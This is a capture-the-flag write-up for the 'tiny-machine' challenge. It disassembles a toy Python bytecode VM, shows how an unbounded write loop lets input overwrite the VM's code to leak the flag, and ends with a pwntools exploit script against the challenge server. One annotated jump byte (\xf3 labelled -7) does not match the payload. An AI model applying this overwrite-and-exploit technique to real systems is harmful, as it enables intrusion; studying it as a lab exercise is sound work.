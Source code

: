 # Write Up for tiny-machine
Source code is given as python code
```
import sys

class TinyMachine():
    def __init__(self, memory):
        self.memory = memory
        self.ip = 0
        self.registers = [0, 0, 0, 0]
        self.halted = False

    def setIp(self, ip):
        self.ip = ip

    def run(self):
        if self.halted:
            return

        while True:
            try:
                opcode = self.memory[self.ip]

                if opcode in [0, 1, 2, 3, 4, 5]:
                    dest = self.memory[self.ip + 1]
                    src = self.memory[self.ip + 2]                

                if opcode == 0: #LOAD
                    self.registers[dest] = self.memory[self.registers[src]]
                    self.ip += 3
                elif opcode == 1: #STORE
                    self.memory[self.registers[dest]] = self.registers[src]
                    self.ip += 3
                elif opcode == 2: #MOV_R_IMM
                    self.registers[dest] = src
                    self.ip += 3
                elif opcode == 3: #MOV_R_R
                    self.registers[dest] = self.registers[src]
                    self.ip += 3
                elif opcode == 4: #ADD_R_R
                    self.registers[dest] = (self.registers[dest] + self.registers[src]) & 0xFF
                    self.ip += 3
                elif opcode == 5: #ADD_R_IMM
                    self.registers[dest] = (self.registers[dest] + src) & 0xFF
                    self.ip += 3
                elif opcode == 6: #JNZ
                    if self.registers[1] != 0:
                        dest = self.memory[self.ip + 1]
                        self.ip = (self.ip + dest) & 0xFF
                    else:
                        self.ip += 2
                elif opcode == 7: #JMP
                    dest = self.memory[self.ip + 1]
                    self.ip = (self.ip + dest) & 0xFF
                elif opcode == 8: #EXT
                    if self.registers[0] == 0:
                        self.registers[1] = sys.stdin.buffer.read(1)[0]
                    elif self.registers[0] == 1:
                        sys.stdout.write(chr(self.registers[1]))
                        sys.stdout.flush()
                    self.ip += 1
                else:
                    self.halted = True
                    return
            except Exception as e:
                halted = True
                return

FLAG = b'DH{xxxxxxxxxxxxxxxxxxxxxxxxx}' #25

memory = list(FLAG + b'\xFF' * 192 + b'\x02\x02\x1d\x07\x02\x08\x01\x02\x01\x05\x02\x01\x05\x01\xf6\x06\xf4\x02\x00\x01\x02\x02\x1d\x00\x01\x02\x08\x05\x02\x01\x05\x01\xf6\x06\xf6')
machine = TinyMachine(memory)
machine.ip = 221
machine.run()
print("test")
```

**memory** is a list with a structure of
```
FLAG(29) + Padding(192) + bytecode(35)
```

# Primitives
At first, **memory** looks disorderd. But we can analyze this in perspective of assembly <br>

There are 0, 1, 2 operands for each opcode <br>

1. LOAD, STORE, MOV_R_IMM, MOV_R_R, ADD_R_R, ADD_R_IMM => 2 operands(src, dest)
2. JNZ, JMP => 1 operand(dest)
3. EXT => No operand(Perform read/write based on reg[1])

After 2-operands operation, self.ip increases by 3, and 1-operand increses 2. So, we can reconstruct byte code like below
```
IP: 221  \x02\x02\x1d   MOV   reg[2], 29     ; Store 29 in register 2 (address after FLAG)
IP: 224  \x07\x02       JMP   +2             ; Increase IP by 2 (set IP to 226)
IP: 226  \x08           EXT                  ; Receive input (reg[0]=0 mode)
IP: 227  \x01\x02\x01   STORE [reg[2]], reg[1] ; Store input value to memory[reg[2]]
IP: 230  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (move to next memory address)
IP: 233  \x05\x01\xf6   ADD   reg[1], -10    ; Add -10 to register 1 (counter)
IP: 236  \x06\xf4       JNZ   -12            ; If reg[1]≠0, jump to IP = 224 (JMP instruction)
IP: 238  \x02\x00\x01   MOV   reg[0], 1      ; Store 1 in register 0 (switch to output mode)
IP: 241  \x02\x02\x1d   MOV   reg[2], 29     ; Store 29 in register 2 (return to same memory area)
IP: 244  \x00\x01\x02   LOAD  reg[1], [reg[2]] ; Load value from memory[reg[2]] to reg[1]
IP: 247  \x08           EXT                  ; Output (reg[0]=1 means output mode)
IP: 248  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (next position)
IP: 251  \x05\x01\xf6   ADD   reg[1], -10    ; Add -10 to register 1 (counter)
IP: 254  \x06\xf6       JNZ   -10            ; If reg[1]≠0, jump to IP = 244 (LOAD instruction)
```

Now We can find that there are two loops in this byte code: read and write <br>

Intended operation (I assume) is reading and filling bytes of padding part and printing it <br>

But, since there is no limit of register 2 value, we can overwrite code part <br>

We can change IP:241 part to initialize register 2 to 0 -> Can print from FLAG <br>

Rewritten byte code can be look like this
```
IP: 221  \x02\x02\x1d   MOV   reg[2], 29     ; Store 29 in register 2 (address after FLAG)
IP: 224  \x07\x02       JMP   +2             ; Increase IP by 2 (set IP to 226)
IP: 226  \x08           EXT                  ; Receive input (reg[0]=0 mode)
IP: 227  \x01\x02\x01   STORE [reg[2]], reg[1] ; Store input value to memory[reg[2]]
IP: 230  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (move to next memory address)
IP: 233  \x05\x01\xf6   ADD   reg[1], -10    ; Add -10 to register 1 (counter)
IP: 236  \x06\xf4       JNZ   -12            ; If reg[1]≠0, jump to IP = 224 (JMP instruction)
IP: 238  \x02\x00\x01   MOV   reg[0], 1      ; Store 1 in register 0 (switch to output mode)
IP: 241  \x02\x02\x00   MOV   reg[2], 0     ; Store 0 in register 2 (start from flag) # Changed part
IP: 244  \x00\x01\x02   LOAD  reg[1], [reg[2]] ; Load value from memory[reg[2]] to reg[1]
IP: 247  \x08           EXT                  ; Output (reg[0]=1 means output mode)
IP: 248  \x05\x02\x01   ADD   reg[2], 1      ; Increase register 2 by 1 (next position)
IP: 251  \x06\xf3       JNZ   -7             ; If reg[1]≠0, jump to IP = 244 (LOAD instruction) # Changed part
```

# Exploit
Exploit code can be written like this <br>

Sending **\x00** is for IP:251 part, that is to finish the second loop. And sending **\n** is for finishing first loop 
```
from pwn import *

# p = process(['python3', 'tiny_machine.py'])
p = remote('host8.dreamhack.games',21257)

p.send(b'\x00')

for i in range(191):
    p.send(b'B')

program_malformed = b'\x02\x02\x1d\x07\x02\x08\x01\x02\x01\x05\x02\x01\x05\x01\xf6\x06\xf4\x02\x00\x01\x02\x02\x00\x00\x01\x02\x08\x05\x02\x01\x06\xf9'

for byte in program_malformed:
    p.send(bytes([byte]))

p.send(b'\n')

p.interactive()
```